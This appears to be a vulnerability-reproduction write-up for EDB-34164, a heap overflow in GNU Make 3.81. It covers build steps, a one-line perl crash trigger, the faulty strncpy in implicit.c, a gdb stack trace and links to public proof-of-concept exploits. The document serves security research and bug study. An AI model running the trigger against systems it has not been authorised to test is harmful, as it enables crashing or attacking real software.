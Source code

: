 # EDB-34164

## Experiment Environment

Debian Jessie

[DockerFile](https://github.com/mudongliang/Dockerfiles/tree/master/EDB-34164)

[Docker Image](https://hub.docker.com/r/mudongliang/make-edb-34164/)

## INSTALL & Configuration

```
wget http://ftp.gnu.org/gnu/make/make-3.81.tar.gz;
** or **
wget https://raw.githubusercontent.com/mudongliang/source-packages/master/EDB-34164/make-3.81.tar.gz 

tar -xvf make-3.81.tar.gz;
cd make-3.81/;
./configure;
make;
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
./make `perl -e 'print "A" x 4000 . "B"x96 . "\xef\xbe\xad\xde"x4'`
```

## PoCs

[Exploit-DB Make 3.81 - Heap Overflow](https://www.exploit-db.com/exploits/34164/)

[LinuxFlaw Make 3.81 - Heap Overflow (PoC)](https://github.com/mudongliang/LinuxFlaw/blob/master/EDB-34164/34164.pl)

[exploitdb-database Make 3.81 - Heap Overflow (PoC)](https://github.com/offensive-security/exploit-database/blob/master/platforms/linux/dos/34164.pl)

## Vulnerability Details & Patch

### Root Cause

```
implicit.c:478

          strncpy (stem_str, stem, stemlen);

```

### Stack Trace

```
(gdb) info stack
#0  pattern_search (file=0x7fffffffa040, file@entry=0x7fffff006300, 
    archive=archive@entry=0, depth=depth@entry=2, 
    recursions=recursions@entry=1) at implicit.c:752
#1  0x000000000040cedd in pattern_search (file=0x631cf0, 
    file@entry=0xdeadbeefdeadbeef, archive=archive@entry=0, 
    depth=depth@entry=1, recursions=recursions@entry=0) at implicit.c:735
#2  0x000000000040d5b0 in try_implicit_rule (file=0xdeadbeefdeadbeef, 
    file@entry=0x631cf0, depth=depth@entry=1) at implicit.c:48
#3  0x0000000000418306 in update_file_1 (depth=1, file=0x631cf0)
    at remake.c:453
#4  update_file (file=file@entry=0x631cf0, depth=<optimized out>)
    at remake.c:307
#5  0x0000000000418c66 in update_goal_chain (goals=0x66c920)
    at remake.c:154
#6  0x000000000040389f in main (argc=<optimized out>, 
    argv=0x7fffffffdd18, envp=<optimized out>) at main.c:2198
```

## References

[1] [make-3.81](http://ftp.gnu.org/gnu/make/make-3.81.tar.gz)

[2] [make-3.81](https://raw.githubusercontent.com/mudongliang/source-packages/master/EDB-34164/make-3.81.tar.gz)

[3] [DockerFile](https://github.com/mudongliang/Dockerfiles/tree/master/EDB-34164)

[4] [Docker Image](https://hub.docker.com/r/mudongliang/make-edb-34164/)

[5][Exploit-DB Make 3.81 - Heap Overflow](https://www.exploit-db.com/exploits/34164/]

[6][LinuxFlaw Make 3.81 - Heap Overflow (PoC)](https://github.com/mudongliang/LinuxFlaw/blob/master/EDB-34164/34164.pl)

[7][exploitdb-database Make 3.81 - Heap Overflow (PoC)](https://github.com/offensive-security/exploit-database/blob/master/platforms/linux/dos/34164.pl)
